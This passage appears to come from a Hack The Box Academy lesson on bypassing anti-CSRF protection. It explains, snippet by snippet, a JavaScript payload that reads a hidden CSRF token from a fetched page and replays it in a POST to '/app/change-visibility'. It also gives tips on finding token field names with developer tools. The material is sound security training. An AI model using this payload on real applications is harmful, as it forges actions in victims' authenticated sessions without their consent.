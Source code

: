 
```javascript
req.send();
```

The script snippet above will send everything we constructed in the HTTP request.


```javascript
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
```

The script snippet above defines a function called _handleResponse_.


```javascript
var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
```

The script snippet above defines a variable called _token_, which gets the value of _responseText_ from the page we specified earlier in our request. `/name="csrf" type="hidden" value="(\w+)"/)[1];` looks for a hidden input field called _csrf_ and \w+ matches one or more alphanumeric characters. In some cases, this may be different, so let us look at how you can identify the name of a hidden value or check if it is actually "CSRF".

Open Web Developer Tools (Shift+Ctrl+I in the case of Firefox) and navigate to the _Inspector_ tab. We can use the _search_ functionality to look for a specific string. In our case, we look for _csrf_, and we get a result.

![image](https://academy.hackthebox.com/storage/modules/153/57.png)

**Note**: If no result is returned and you are certain that CSRF tokens are in place, look through various bits of the source code or copy your current CSRF token and look for it through the search functionality. This way, you may uncover the input field name you are looking for. If you still get no results, this doesn't mean that the application employs no anti-CSRF protections. There could be another form that is protected by an anti-CSRF protection.

```javascript
var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
```

The script snippet above constructs the HTTP request that we will send through a [XMLHttpRequest](https://blog.0daylabs.com/2014/09/13/ajax-everything-you-should-know-about-xmlhttprequest/) object.

```javascript
changeReq.open('post', '/app/change-visibility', true);
```

In the script snippet above, we change the method from GET to POST. The first request was to move us to the targeted page and the second request was to perform the wanted action.
